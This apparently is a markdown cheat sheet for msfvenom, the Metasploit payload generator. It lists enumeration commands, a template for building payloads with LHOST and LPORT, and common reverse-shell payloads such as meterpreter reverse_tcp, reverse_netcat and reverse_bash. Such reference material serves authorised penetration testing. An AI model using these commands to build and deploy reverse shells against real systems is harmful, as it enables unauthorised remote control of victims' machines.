 ## Available options

```
msfvenom -l payloads
```

display all payloads.

```
msfvenom --help-formats
```

display all formats.

```
msfvenom --help-platforms
```

display all platforms.

```
msfvenom -l encoders
```

display all encoders.

___

## Generate payload

```
msfvenom -p <payload> -f <format> -o <filename> [-e <encoder] [-a <architecture>] [--platform <platform>] LHOST=<ip> LPORT=<port>
```

generate a payload.

_Payload path: \<os>/\<architecture>/\<payload>_

_Typical payloads/formats:_
- `windows/meterpreter/reverse_tcp`/`exe`
- `linux/x86/meterpreter/reverse_tcp`/`elf`
- `linux/x86/shell_reverse_tcp`/`elf`
- `cmd/unix/reverse_netcat`/`raw`
- `cmd/unix/reverse_bash`/`raw`
- `cmd/unix/reverse_python`/`raw`

`shell_reverse_tcp` is stage-less and `shell/reverse_tcp` is staged.
